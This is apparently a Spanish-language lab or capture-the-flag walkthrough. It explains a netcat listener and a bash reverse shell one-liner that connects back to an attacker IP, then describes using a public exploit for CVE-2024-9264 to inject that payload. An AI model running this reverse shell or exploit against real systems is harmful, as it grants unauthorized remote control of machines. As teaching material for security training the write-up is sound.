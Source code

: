 ```bash
(kali㉿kali)-[~]
└─$ nc -lvnp 1443                           
listening on [any] 1443 ...
```

### Rev Shell

vamos a crear la siguiente reverse shell con este comando

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.15.8/1443 0>&1
```

w#### `#!/bin/bash`

- Esta es la **shebang line**, y le indica al sistema que el script debe ser ejecutado usando el intérprete de bash.
- Es obligatoria si quieres que el script se ejecute correctamente como archivo por sí solo.
#### `bash -i`

- Ejecuta una **nueva instancia interactiva** de bash.
- La `-i` significa _interactive shell_, lo cual es necesario para que puedas interactuar con la terminal una vez establecida la conexión.
- Sin `-i`, la shell remota podría no responder correctamente a tus comandos.

#### `>& /dev/tcp/10.10.15.8/1443`

- Esta parte redirige tanto la **salida estándar** (`stdout`) como la **salida de errores** (`stderr`) hacia la conexión TCP.
- `/dev/tcp/10.10.15.8/1443` es una característica especial de bash (no existe como archivo real), que permite abrir una conexión TCP con esa IP y puerto como si fuera un archivo.
- Es decir, todo lo que el bash imprima (tanto salida como errores) irá a esa conexión.

#### `0>&1`

- Esto redirige la **entrada estándar** (`stdin`) a la misma conexión donde ya están saliendo los datos (la `&1` es la salida).
- De esta forma, el atacante puede **enviar comandos desde su máquina** y la shell los interpretará correctamente.


##### Que hace todo conjunto?

- Establece una **reverse shell interactiva** desde el host víctima hacia el atacante (10.10.15.8) en el puerto 1443.

- Todo lo que escribas en el `nc` del atacante se enviará a la shell, y todo lo que la shell responda volverá por el mismo canal.

## Inyeccion de Exploit

Una vez identificado que el sistema es vulnerable a la **CVE-2024-9264**, ejecutamos el exploit disponible públicamente, proporcionando las credenciales válidas del usuario `admin` y utilizando el parámetro `-c` para inyectar un payload con el objetivo de obtener una reverse shell.
